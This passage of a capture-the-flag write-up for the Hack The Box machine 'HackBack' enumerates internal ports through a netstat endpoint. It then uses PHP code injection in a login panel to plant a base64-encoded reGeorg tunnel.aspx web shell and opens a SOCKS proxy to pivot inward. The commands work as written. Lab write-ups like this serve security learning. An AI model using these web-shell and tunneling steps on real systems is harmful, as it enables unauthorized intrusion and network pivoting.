 I continued by enumerating  port (6666), which appeared to be a command line application. With this, I could discover internal open ports.

``` bash
❯ curl -s http://hackback.htb:6666/netstat | grep "\"LocalPort\""
        "LocalPort":  64831,
        "LocalPort":  49670,
        "LocalPort":  49669,
        "LocalPort":  49668,
        "LocalPort":  49667,
        "LocalPort":  49666,
        "LocalPort":  49665,
        "LocalPort":  49664,
        "LocalPort":  47001,
        "LocalPort":  6666,
        "LocalPort":  5985,
        "LocalPort":  3389,
        "LocalPort":  445,
        "LocalPort":  135,
        "LocalPort":  80,
        "LocalPort":  49670,
        "LocalPort":  49669,
        "LocalPort":  49668,
        "LocalPort":  49667,
        "LocalPort":  49666,
        "LocalPort":  49665,
        "LocalPort":  49664,
        "LocalPort":  8080,
        "LocalPort":  6666,
        "LocalPort":  3389,
        "LocalPort":  139,
        "LocalPort":  135,
```
To use these ports, I exploit again the vulnerability in the hack the box login panel, allowing me to inject commands.

I attempted to inject a file in the server using "file_put_contets(;)",  and used the reGeorg tool https://raw.githubusercontent.com/sensepost/reGeorg/master/tunnel.aspx

``` bash
#Encode the "tunnel.aspx" code in base64
base64 -w 0 tunner.aspx; echo

#in the login panel
<?php file_put_contents("pwned.aspx", base64_decode("base64string")); ?>
#confirm 
❯ curl "http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/pwned.aspx"
Georg says, 'All seems fine'%     

```

With the "tunnel.aspx" file on the server, I used the reGeorgsocksproxy.py tool

``` bash
python2 reGeorgSocksProxy.py -u http://admin.hackback.htb/2bb9..../pwned.aspx -p 1234

#edit prroxychains to use socks4 with the port 1234

```
